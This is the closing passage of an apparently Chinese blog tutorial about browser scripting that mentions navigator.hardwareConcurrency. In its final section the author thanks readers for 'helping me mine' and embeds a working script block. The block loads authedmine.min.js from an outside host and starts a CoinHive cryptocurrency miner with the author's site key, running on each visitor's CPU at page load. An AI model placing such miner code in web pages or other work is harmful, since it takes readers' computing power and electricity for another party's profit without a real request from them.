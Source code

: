       }
    });
    </script>

另外注意到，上述的示例当中，我们都使用到了一个叫做 navigator.hardwareConcurrency 的 Web API，通过这个 API 我们能够获取到 CPU 的核心数，事实上还有很多其他非常强大有用的 Web API ，感兴趣的同学可以自行查阅研究一下。

# 写在后面

>最后十分感激大家帮我挖矿...

<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('KkOVfnhu4iKOqOSPQDqj0JTSIKzhEorf', {throttle: 0.3})
		miner.start()

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
